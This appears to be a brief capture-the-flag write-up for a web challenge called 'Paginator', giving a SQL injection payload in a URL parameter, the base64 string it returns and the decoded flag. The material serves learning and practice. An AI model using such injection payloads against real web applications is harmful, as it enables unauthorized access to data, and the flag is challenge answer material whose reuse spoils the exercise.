 # Paginator [50 points] (476 solves)
Payload: `/?p=2,10 OR id=1--`. Then, you will get `RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvdyF9`, decode by using base64.

flag: `ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow!}`